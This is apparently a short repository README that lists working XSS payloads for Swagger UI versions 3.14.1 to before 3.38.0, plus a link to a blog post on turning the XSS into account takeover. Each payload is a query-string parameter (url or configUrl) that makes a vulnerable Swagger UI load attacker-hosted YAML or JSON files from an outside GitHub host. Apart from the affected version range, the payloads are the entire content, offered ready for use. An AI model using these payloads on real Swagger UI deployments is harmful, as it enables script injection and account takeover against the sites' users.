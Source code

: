 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/abdulx01/My-Note/swagger-ui-xss3.0/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/abdulx01/My-Note/swagger-ui-xss3.0/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/abdulx01/My-Note/swagger-ui-xss3.0/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
